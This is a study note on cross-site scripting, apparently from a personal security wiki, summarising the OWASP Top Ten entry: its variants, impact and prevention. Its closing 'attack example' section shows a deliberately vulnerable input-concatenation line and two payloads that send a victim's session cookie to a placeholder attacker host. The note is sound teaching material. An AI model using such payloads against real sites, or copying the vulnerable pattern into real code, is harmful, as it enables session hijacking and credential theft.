 ```yaml
---
title: XSS
---
```


## description

xss flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser api that can create html or JavaScript.

xss allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

**TLDR:** unintended execution of malicious scripts in a website

## link

[https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS)](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS))

## overview

### attack vector

* app specific, but generally
* unfiltered input and stuff
* almost all places for [injection flaws](https://owasp.org/www-community/Injection_Flaws)
* ref [[injection]]
* execute scripts (js, php)

### security weakness

* ref [[injection]]
* stupid parsers and filtering

### impact

* moderate for reflected and dom xss
* severe for stored xss
* remote code execution on the victim’s browser
  * steal credentials, sessions
  * deliver malware
* **if xss is present, all [[csrf]] protection is defeated**

## vuln

### reflected xss

* app or api includes unvalidated and unescaped user input as part of html output
* a successful attack can allow the attacker to execute arbitrary html and js in the victim’s browser
* typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar

### stored xss

* app or api stores unsanitized user input that is viewed at a later time by another user or an administrator
* stored xss is often considered a high or critical risk

### dom xss

* js frameworks, single-page applications, and apis that dynamically include attacker-controllable data to a page are vulnerable to dom xss
* ideally, the app would not send attacker-controllable data to unsafe js apis

## prevention

* separate untrusted data and browser content
* frameworks that automatically prevent xss like ruby on rails and react js
* content security policy for xss mitigation
* encoding and escaping properly
  * escape untrusted http req

## attack example

```html
<img src="http://attacker.com/?cookie=" + document.cookie>
```

```js
page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

attacker can send the `CC` query as

```html
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

and the session cookie is sent to the attacker

[//begin]: # "Autogenerated link references for markdown compatibility"
[injection]: injection.md "Injection"
[csrf]: csrf.md "CSRF"
[//end]: # "Autogenerated link references"
